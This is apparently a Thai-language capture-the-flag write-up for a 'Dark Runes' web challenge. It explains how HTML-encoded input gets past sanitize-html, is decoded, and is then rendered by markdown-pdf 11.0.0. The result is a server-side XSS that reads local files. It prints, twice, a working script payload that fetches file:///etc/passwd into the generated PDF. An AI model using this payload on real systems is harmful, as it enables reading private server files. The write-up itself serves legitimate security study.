

## ช่องโหว่ที่พบจากใน package.json:

**1. markdown-pdf (11.0.0) - มีช่องโหว่ร้แรง**
- เวอร์ชันนี้มีช่องโหว่ด้าน Command Injection และ Path Traversal
- สามารถถูกใช้เพื่อ execute arbitrary commands ได้
- แนะนำ: หลีกเลี่ยงการใช้หรือเปลี่ยนไปใช้ library อื่น

**2. ejs (^3.1.10)**
- มีช่องโหว่ด้าน Remote Code Execution (RCE) 
- แนะนำ: อัปเดตเป็น 3.1.11 หรือใหม่กว่า

**3. sanitize-html (^2.12.0)**
- อาจมีช่องโหว่ bypass ใน HTML sanitization
- แนะนำ: อัปเดตเป็นเวอร์ชันล่าสุด

```
เนื่องจาก flag ไม่ได้ถูกเรียกที่ไหนเลย เพื่อ execute arbitrary commands ช่อง โหว่ของ  markdown-pdf (11.0.0) ตอบโจทย์มาก
```




```
การทำงานของ Dark Runes web application 
---สร้าง document ที่มี sanitizer html เก็บไว้ใน database
---export เป็น pdf file
```
https://www.npmjs.com/package/sanitize-html


สวัสดีครับ! เอกสารที่คุณให้มาเป็นคู่มือการใช้งาน **sanitize-html** ซึ่งเป็น JavaScript library ที่ใช้สำหรับทำความสะอาด HTML เพื่อป้องกันการโจมตีแบบ XSS และกรอง HTML ที่ไม่ต้องการออก

## สรุปสั้น ๆ

**sanitize-html** เป็นเครื่องมือที่ช่วยให้คุณสามารถ:
- กรอง HTML tags และ attributes ที่อนุญาต
- ลบ JavaScript และโค้ดที่อันตรายออก
- ทำความสะอาด HTML ที่มาจาก rich text editors
- ป้องกันการโจมตีแบบ XSS

## การใช้งานพื้นฐาน

```javascript
import sanitizeHtml from 'sanitize-html';

// ใช้งานแบบ default
const clean = sanitizeHtml('<p>Hello <script>alert("hack")</script>World</p>');
// ผลลัพธ์: '<p>Hello World</p>'

// กำหนดเงื่อนไขเอง
const clean = sanitizeHtml(dirtyHtml, {
  allowedTags: ['p', 'b', 'i', 'em', 'strong', 'a'],
  allowedAttributes: {
    'a': ['href']
  }
});
```


## การ Escape อัตโนมัติ

sanitize-html จะทำการ **escape** เครื่องหมาย `&` และตัวอักษรพิเศษอื่น ๆ อัตโนมัติ:

```javascript
const input = 'AT&T company & others';
const clean = sanitizeHtml(input);
// ผลลัพธ์: 'AT&amp;T company &amp; others'
```

## HTML Entities ที่ได้รับการจัดการ

| ตัวอักษร | จะกลายเป็น | ความหมาย |
|---------|------------|----------|
| `&` | `&amp;` | Ampersand |
| `<` | `&lt;` | Less than |
| `>` | `&gt;` | Greater than |
| `"` | `&quot;` | Quotation mark (ใน attributes) |


## HTML Entities ที่มีอยู่แล้ว

หาก input มี HTML entities อยู่แล้ว sanitize-html จะจัดการให้ถูกต้อง:

```javascript
// Input ที่มี entities อยู่แล้ว
const input = 'AT&amp;T &lt;company&gt;';
const clean = sanitizeHtml(input);
// ผลลัพธ์: 'AT&amp;T &lt;company&gt;' (ไม่ double-escape)
```

```
> dark-runes@1337.0.0 start
> node src/index.js

New access pass generated: 7137
Server started on port 3000
Document found: {
  id: 1,
  user_id: 1,
  content: '&lt;img src=#&gt;',
  integrity: '89d5cf21dd7b1b4962f35d9ac95dc8d0105588602918fc2d238d0d2b5fad224a'
}
content 
Document found: {
  id: 2,
  user_id: 1,
  content: '',
  integrity: '00bb98bbc4031633b2e27990a0886819894be4d1d89fb0e558fade7fe9876031'
}
content
Document found: {
  id: 3,
  user_id: 1,
  content: '<a>hi</a>',
  integrity: 'b2a78ee75421b0428ce857794420944c8ca69fd05a06ac790738d0984fef6e32'
}
content hi
Document found: {
  id: 4,
  user_id: 1,
  content: '&lt;script&gt;document.write(window.location);xhr=new XMLHttpRequest;xhr.onload=function(){document.write((this.responseText))};xhr.open("GET","file:///etc/passwd");xhr.send();&lt;/script&gt;',
  integrity: 'c8bd775b9970f0f2bde4fbbf6a735c5964b8c6567f726327313fc5a9d3891f71'
}
content <script>document.write(window.location);xhr=new XMLHttpRequest;xhr.onload=function(){document.write((this.responseText))};xhr.open("GET","file:///etc/passwd");xhr.send();</script>
```

เมื่อลองใช้ script tag จะถูกลบข้อความทั้งหมดแล้วจะเก็บ''เข้า database มีเพียง tag ที่ allow ในโจทย์คือ a tag และ document ที่ html encode แล้ว


markdown-pdf 11.0.0 - Local File Read via Server Side XSS

https://fluidattacks.com/pt/advisories/relsb

```
content=<script>document.write(window.location);xhr=new XMLHttpRequest;xhr.onload=function(){document.write((this.responseText))};xhr.open("GET","file:///etc/passwd");xhr.send();</script>

```


## SUMMARY

sanitize-html ทำงานได้ปกติตาม config เพียงแต่ `const content = nhm.translate(document.content);` จะ html decode content ที่อยู่ใน database กลับเป็น html tag 

ซึ่ง `const generatedPDF = await generatePDF(content);` จะอ่าน html tag payload ทำให้เกิด Local File Read via Server Side XSS


